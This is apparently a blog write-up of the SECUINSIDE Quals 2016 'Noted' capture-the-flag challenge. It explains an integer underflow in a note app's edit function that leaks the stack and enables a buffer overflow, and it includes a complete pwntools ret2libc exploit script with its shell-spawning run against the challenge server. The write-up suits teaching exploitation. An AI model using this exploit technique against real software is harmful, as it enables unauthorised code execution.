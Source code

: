```yaml
---
layout: post
title: SECUINSIDE Quals 2016 - Noted
category: [Exploitation]
tags: [Exploitation, SECUINSIDE]
comments: true
---
```


**Points:** 180
**Solves:** 19
**Category:** Exploitation
**Description:** get shell and execute /flag_x

> [noted]({{site.url}}/assets/secu-noted)
> [libc]({{site.url}}/assets/secu-libc)

{% highlight text %} 
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
gdb-peda$
{% endhighlight %}

This challenge is a binary in a form of note keeping application. On start it changes directory to `/home/noted` and presents the user with a menu.
{% highlight text %}
[Simple NOTED]
Menu
1) Login
2) Register
3) Exit

{% endhighlight %}

Before login, we need to register an account. On registration the application creates a folder with the provided user id. For the password it creates a file in the new directory, password.txt that only contains plaintext ASCII password for this user.

Once we login a different menu is presented.

{% highlight text %}
Menu
1) List note
2) Write note
3) Read note
4) Edit note
5) Delete note
6) Recover note
7) Empty recyclecan
8) Logout

{% endhighlight %}

## Main menu

Let's go a short description of all the functions in the application.

1. `List note` displays the notes the user has created
2. `Write note` is how a user creates a note. Each note creates a file in the user's designated directory, each file/note starts with 16 bytes serving as a password for that note followed by a maximum of 1024 bytes of note's content.
3. `Read note` reads a note
4. `Edit note` edits a note
5. `Delete note` deletes a note by moving the note/file in a subdirectory named `recyclecan`
6. `Recover note` moves a deleted note from the recyclebin directory back to the user's main folder
7. `Empty recyclecan` deletes all files/notes in the recyclecan folder
8. `Logout` logs out by setting a local variable in main and presents the login menu

To exploit the application we only need to know the `Write note` and `Edit note` functions.

## Write note

It's going to be easier if I just show the decompiled psudo-code.
What we need to do here is, create a note with arbitrary name and password and a negative content length. The goal is to create a note with it's content only it's password.

{% highlight C %}
int write_note()
{
  int result;
  int v1;
  int n;
  int fd;
  int fda;
  int length;
  char temp_buf[16];
  char content[1024];
  char title[136];  // note name / file name

  memset(title, 0, 0x80);
  memset(content, 0, 0x400);
  memset(temp_buf, 0, 0x10);
  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;  // null terminates our input
  if ( check_alphanum(title) )
  {
    fd = open(title, 0);
    printf("filedata length : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    length = atoi(temp_buf);  // Here we need to supply negative number
    if ( length > 1023 )      // length is signed        
      length = 0;
    memset(temp_buf, 0, 0x10);
    printf("password : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    if ( length > 0 )       // negative length prevents us from
    {                       // writing to the content buffer :(
      printf("filedata : ");
      v1 = read(0, content, length + 1);
      n = v1 - 1;
      content[v1] = 0;
    }
    if ( fd == -1 )
    {
      fda = open(title, 65, 438); // creates note
      write(fda, temp_buf, 0x10); // writes note's password to the note
      if ( length <= 0 )          // we need negative length here
      {                         
        if ( !length )            // negative length prevents "(EMPTY)"
          write(fda, "(EMPTY)", 7); // to be written to the note
      }
      else
      {
        write(fda, content, n);
      }
      close(fda);      // our note's content is only it's 16 byte password ! 
    }
    else
    {
      puts("error : filename duplicate!\n");
      close(fd);
    }
    result = write(1, "\n", 1);
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

The check if length is negative before writing to the note is preventing us from supplying data to the note, however by creating a note with it's content only it's password we can trigger an integer underflow in `Edit note`.

## Edit note

{% highlight C %}
int edit_note()
{
  int result;
  int v1;
  int file_length;
  int note_fd;
  int n;
  char temp_buf[16];
  char password[16];
  char note_content[1024];
  char title[136];

  memset(title, 0, 0x80);
  memset(note_content, 0, 0x400);
  memset(password, 0, 0x10);
  memset(temp_buf, 0, 0x10);

  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;

  if ( check_alphanum(title) )
  {
    if ( check_file_stats(title, &v1) == -1 )
    {
      result = puts("error : invalid note\n");
    }
    else
    {
      // asks user for password
      memset(temp_buf, 0, 0x10);
      printf("password : ");
      temp_buf[read(0, temp_buf, 0x10) - 1)] = 0;
      password = temp_buf;
      note_fd = open(title, 0);
      if ( note_fd == -1 )
      {
        result = puts("error : cannot open note\n");
      }
      else
      {
        // read the passwd from the note
        read(note_fd, temp_buf, 0x10);
        // compare the two passwords
        if ( !memcmp(password, local_buf, 0x10) ) // 
        {
          if ( file_length - 16 <= 1024 )
          {
            // since the note's content is only it's password
            // the length of the note will be 16
            // calculating 16 - 16 - 1 will result it n being -1 via int underflow vuln
            n = read(note_fd, note_content, file_length - 16) - 1; // integer underflow here
            note_content[n] = 0;
            close(note_fd);

            // Here write will leak the whole content of the stack !
            printf("original data : ");
            write(1, note_content, n);
            note_fd = open(title, 1);

            // and here we have buffer overflow of the note_content local buffer
            printf("new file data (new file can't exceed original size) : ");
            n = read(0, note_content, n) - 1;
            note_content[n] = 0;
            write(note_fd, &local_buf, 0x10);
            write(note_fd, note_content, n);
            close(note_fd);
          }
          else
          {
            puts("error : note is too big\n");
          }
        }
        else
        {
          puts("error : incorrect password\n");
        }
        result = close(note_fd);
      }
    }
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

If you read the comments, you pretty much know what needs to be done in order to exploit this function.
So let's create a username, login and create a note with length -1. Then go into `Edit note` and edit our note. This will cause the leak of the whole stack, that's where we are going to grab an address within libc calculate the offset to `system()` and `/bin/sh` string and classically overwrite the return address of the `Edit note`. 

## Exploit

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def register(user, pwd):
  r.sendline('2')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('3) Exit\n')

def login(user, pwd):
  r.sendline('1')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('Menu\n')

def create_note(title):
  r.sendline('2')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('filedata length : ')
  r.sendline('-1')
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('8) Logout')

def edit_note(title):
  r.sendline('4')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('original data : ')
  leak = r.recv(0x4cc)
  libc_addr = u32(r.recv(4)) - 0x00018637 # local 0x19af3
  leak = r.recv()
  log.info("libc addr" + hex(libc_addr))
  bin_sh = libc_addr + 0x15909f     # local 0x16084c remote 0x15909f
  system_addr = libc_addr + 0x0003a920  # local 0x40310 remote 0x3a920
  log.info("/bin/sh at: " + hex(bin_sh))
  log.info("system at: " + hex(system_addr))

  payload = "A" * 0x48c
  payload += p32(system_addr)
  payload += p32(bin_sh) * 2
  r.sendline(payload)

def exploit(r):
  r.recvuntil('3) Exit\n')

  user = 'uafioas'
  pswd = 'uafioas'

  register(user, pswd)
  login(user, pswd)
  create_note('ab')
  edit_note('ab')

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/secuinside/noted/noted'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  noted python ./noted.py chal.cykor.kr 20003
[*] For remote: ./noted.py HOST PORT
[+] Opening connection to chal.cykor.kr on port 20003: Done
[*] libc addr0xf75c4000
[*] /bin/sh at: 0xf771d09f
[*] system at: 0xf75fe920
[*] Switching to interactive mode
new file data (new file can't exceed original size) : $
$ ls /
bin
boot
core
dev
etc
flag_x
home
lib
lib32
lib64
media
mnt
noted
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ /flag_x
df72b22170fed79911e4a69c68a1b9a0
$ id
uid=1000(noted) gid=1000(noted) groups=1000(noted)
$ whoami
noted
$
{% endhighlight %}
